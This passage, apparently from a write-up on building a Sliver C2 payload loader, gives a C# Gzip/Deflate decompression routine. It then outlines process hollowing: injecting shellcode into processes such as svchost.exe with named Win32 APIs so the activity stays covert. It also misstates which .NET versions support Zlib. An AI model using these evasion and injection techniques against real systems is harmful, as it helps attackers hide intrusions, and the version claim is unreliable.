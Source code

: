 Sliver C2 supports Gzip, Deflate, and Zlib compression algorithms. Zlib was not implemented because it is only supported on .NET Framework version 7.0 and above, which does not fit our use case. Therefore, the decompression algorithm parameter will be set to Gzip or Deflate. Any other value will be treated as "no decompression needed":

```csharp
public static byte[] Decompress(byte[] data, string CompressionAlgorithm)
{
    byte[] decompressedArray = null;
    if (CompressionAlgorithm == "deflate9")
    {
        using (MemoryStream decompressedStream = new MemoryStream())
        {
            using (MemoryStream compressStream = new MemoryStream(data))
            {
                using (DeflateStream deflateStream = new DeflateStream(compressStream, CompressionMode.Decompress))
                {
                    deflateStream.CopyTo(decompressedStream);
                }
            }
            decompressedArray = decompressedStream.ToArray();
        }
        return decompressedArray;
    }
    else if (CompressionAlgorithm == "gzip")
    {
        using (MemoryStream decompressedStream = new MemoryStream())
        {
            using (MemoryStream compressStream = new MemoryStream(data))
            {
                using (GZipStream gzipStream = new GZipStream(compressStream, CompressionMode.Decompress))
                {
                    gzipStream.CopyTo(decompressedStream);
                }
            }
            decompressedArray = decompressedStream.ToArray();
        }
        return decompressedArray;
    }
    else
    {
        return data;
    }
}
```

### Process Hollowing

Process hollowing is accomplished by injecting shellcode into a process that ideally also generates network traffic to remain more covert. The implementation follows a basic pattern using Win32 APIs such as CreateProcessA, VirtualAllocEx, WriteProcessMemory, and CreateRemoteThread to inject the code into processes like svchost.exe.
